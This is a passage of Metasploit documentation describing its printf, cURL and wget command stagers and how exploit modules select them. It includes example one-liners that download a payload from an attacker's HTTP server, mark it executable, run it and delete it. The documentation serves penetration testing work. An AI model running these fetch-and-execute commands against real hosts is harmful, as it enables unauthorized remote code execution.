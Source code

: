 To use the echo stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'echo' ]
```

Or set the :echo key to execute_cmdstager:
```ruby
execute_cmdstager(flavor: :echo)
```

## Printf Command Stager - Multi Platform
The [printf](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/printf.rb) command stager is also suitable for multiple platforms except for Windows. It just uses the printf command to write the payload to disk, chmod and execute it. An example of that looks similar to this:
```
printf '\177\177\177\177' >> /tmp/payload ; chmod +x /tmp/payload ; /tmp/payload ; rm -f /tmp/payload
```

To use the printf stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'printf' ]
```

Or set the :printf key to `execute_cmdstager`:
```ruby
execute_cmdstager(flavor: :printf)
```

## cURL Command Stager - Multi Platform
The [cURL](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/curl.rb) command stager uses the `curl` command on the target host to download the payload file. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:
```bash
curl -so /tmp/dtNGlaaL http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/dtNGlaaL;/tmp/dtNGlaaL;rm -f /tmp/dtNGlaaL"
```

To use the cURL stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'curl' ]
```

Or set the :curl key to `execute_cmdstager`:
```ruby
execute_cmdstager(flavor: :curl)
```

## wget Command Stager - Multi Platform
The [wget](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/wget.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `wget` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:
```bash
wget -qO /tmp/MZXxujch http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/MZXxujch;/tmp/MZXxujch;rm -f /tmp/MZXxujch
```
